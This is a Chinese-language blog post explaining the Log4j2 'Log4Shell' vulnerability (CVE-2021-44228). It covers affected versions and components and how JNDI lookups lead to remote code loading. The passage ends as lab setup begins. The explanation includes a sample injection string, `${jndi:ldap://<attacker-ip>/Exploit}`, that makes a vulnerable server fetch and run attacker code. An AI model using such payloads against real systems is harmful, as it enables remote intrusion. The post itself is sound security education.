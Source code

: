 ```yaml
---
layout: post
title: "【网络安全】log4j2 RCE学习"
date: 2024-08-25
author: "3thernet"
header-img: "img/bg-touhou-1.jpg"
tags: []
---
```


## 0x01 概述

Log4j2 RCE，被称为Log4Shell，被称为互联网史上最重大的安全漏洞，编号CVE-2021-44228。

影响范围：Apache Log4j 2.x<=2.14.1

以下组件存在该漏洞：

```
Spring-Boot-strater-log4j2
Apache Struts2
Apache Solr
Apache Flink
Apache Druid
ElasticSearch
Flume
Dubbo
Redis
Logstash
Kafka
vmvare
Swift frameworks
```

任何使用低版本Log4j2记录未经验证用户输入的应用程序都可能受到影响，比如 Tomcat, JBoss, WebSphere 使用 Log4j2 记录HTTP请求或参数；Kafka、Spark等大数据框架使用Log4j2来记录事件；Solr和Elasticsearch，这些平台使用Log4j2进行日志记录；Jenkins等开发工具使用Log4j2来监控和记录活动；Minecraft服务器使用Log4j2记录玩家活动……

### 漏洞原理

**JNDI（Java Naming and Directory Interface）**：JNDI是一种Java API，用于在Java应用程序中访问各种命名和目录服务，例如LDAP（轻量级目录访问协议）、DNS、RMI等。

Log4j2支持一种表达式语言（即Lookups），用于在日志消息中插入动态内容。例如，`${env:USERNAME}`可以插入当前环境变量`USERNAME`的值。同时，Log4j2还支持JNDI查找，如`${jndi:ldap://<attacker-ip>/Exploit}`。当Log4j2处理这样的表达式时，它会尝试连接到LDAP服务器，如果LDAP服务器为攻击者所控制，则可以返回一个指向恶意Java类的URL引用（通常是HTTP），其中包含构造函数或静态代码块，Log4j2会从该URL下载并加载执行恶意代码。

可参考这篇文章画的流程图：[Log4j2 反序列化漏洞原理与复现_log4j2反序列化-CSDN博客](https://blog.csdn.net/FisrtBqy/article/details/130680143)

## 0x02 靶场搭建

安装docker和docker-compose：
